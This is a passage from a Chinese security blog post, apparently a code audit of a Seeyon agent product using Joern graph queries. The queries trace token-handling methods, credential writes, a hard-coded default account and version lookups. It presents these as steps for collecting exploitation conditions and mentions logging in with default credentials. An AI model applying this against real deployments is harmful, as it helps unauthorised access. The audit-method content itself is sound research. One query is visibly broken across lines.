然后**寻找对应调用的位置**

```plain
cpg.call("<operator>.fieldAccess").filter(_.code.equals("com.seeyon.agent.common.utils.TokenUtils.tokenMap")).map(n=>n.astIn.head.astIn.head._astIn.head.asInstanceOf[io.shiftleft.codepropertygraph.generated.nodes.Method].fullName).l
```

[](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/202311211750089.png)

可以看到**涉及到tokenMap的方法出了isChecktoken以外还有getToken**

[](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/202311211750945.png)

然后我们继续**寻找调用了getToken的地方**

```python
cpg.call.filter(_.methodFullName.contains("com.seeyon.agent.common.utils.TokenUtils.getToken")).l
```

[](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/202311211751394.png)

然后**向上寻找对应的调用函数是什么**

```plain
cpg.call.filter(_.methodFullName.contains("com.seeyon.agent.common.utils.TokenUtils.getToken")).map(n=>n.astIn.head.astIn.head._astIn.head.asInstanceOf[io.shiftleft.codepropertygraph.generated.nodes.Method].fullName).l
```

[](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/202311211751242.png)

在这里我们找到了**调用gettoken的位置**，也正好**对应写入token的位置**。

而在后续的利用条件收集中，也可以利用joern来快速挖掘和发现。

-   **寻找获取用户名和密码的方法**

这个很简单，就像我们平时做代码审计的时候，会**通过一些关键字来搜索关键代码**一样，在joern中，你可以做类似的事情。我们可以**搜索变量名为username的变量被调用的位置**。

```python
cpg.identifier("username")._astIn.dedup.l
```

[](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/202311211751765.png)

当然这显得非常粗暴，数据量非常大，但我们可以做更多的限制，比如**调用该变量的方法必须包含put**

```plain
cpg.identifier("username").map(n=>n._callViaAstIn.filter(_.code.contains("put")).dedup.l).l
```

[](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/202311211751942.png)我们可以**直接向上找到对应的函数方法定义位置**

```plain
cpg.identifier("username").map(n=>n._callViaAstIn.filter(_.code.contains("put"))._astIn._astIn.l).dedup.l
```

[](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/202311211751464.png)

我们可以选择几个打开看看

[](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/202311211751792.png)

当然我们发现**不只是有名字为password的变量，还有名为password的常量**

```python
cpg.literal("\"password\"").map(n=>n._callViaAstIn.filter(_.code.contains("put"))._astIn._astIn.map(m=>List(m.asInstanceOf[io.shiftleft.codepropert
y raph.generated.nodes.Method].fullName)).l).dedup.l
```

[](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/202311211751799.png)

可以顺着这里找到**写入默认账户的位置**

[](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/202311211751559.png)

前面提到的**默认账户修改密码的点**也能搜索到，这里甚至可以直接用**默认账号和密码**

除此之外**寻找版本号的位置**也可以用joern来完成，直接搜索**调用了version变量的地方**

```plain
cpg.identifier("version").map(n=>n._callViaAstIn.filter(_.code.contains("put"))._astIn._astIn.map(m=>List(m.asInstanceOf[io.shiftleft.codepropertygraph.generated.nodes.Method].fullName)).l).dedup.l
```

[](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/202311211751928.png)

直接找到了**对应的getVersion方法**

**通过joern提供的从属关系图可以快速锁定我们要寻找的大致目标**，其中的问题也相当实际，你**很难在不熟悉代码的情况下利用joern做深入的扫描**，这也是joern类工具的症结之一
